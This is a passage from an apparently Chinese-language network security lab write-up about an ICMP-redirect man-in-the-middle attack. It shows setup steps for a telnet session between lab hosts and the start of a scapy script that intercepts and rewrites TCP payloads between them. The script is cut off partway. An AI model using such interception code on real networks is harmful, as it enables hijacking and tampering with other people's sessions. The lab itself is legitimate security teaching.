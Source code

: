 可以看到是 $hostM$ 给 $hostA$ 发了重定向包更正了错误。

在 *hostB* 上`ping hostA` 的结果也类似，这里不多做赘述。

---



### Step 4 Launch the MITM attack

保持 *hostM* 开启转发功能：

![2-9-14](../image/2-9-14.png)

然后在 $hostA$ 上`telnet hostB`并登录：

![2-9-15](../image/2-9-15.png)

然后关闭 $hostM$ 的转发功能：

![2-9-16](../image/2-9-16.png)

此时，在 *hostA* 中输入内容，无法显示。

编写 `mitm.py`:

```python
#!/usr/bin/env python3 

from scapy.all import *  
import re  # 导入正则表达式模块，用于字符串替换操作

# 定义主机 A 和主机 B 的 IP 和 MAC 地址
IP_A = "10.9.0.5"  # 主机 A 的 IP 地址
MAC_A = "02:42:0a:09:00:05"  # 主机 A 的 MAC 地址
IP_B = "10.9.0.6"  # 主机 B 的 IP 地址
MAC_B = "02:42:0a:09:00:06"  # 主机 B 的 MAC 地址

# 定义数据包处理函数，用于修改 TCP 数据包中的有效载荷
def spoof_pkt(pkt):
    # 检查数据包是否来自主机 A，目标是主机 B
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))  # 复制原始的 IP 层
        del(newpkt.chksum)  # 删除原 IP 校验和字段，重计算校验和
```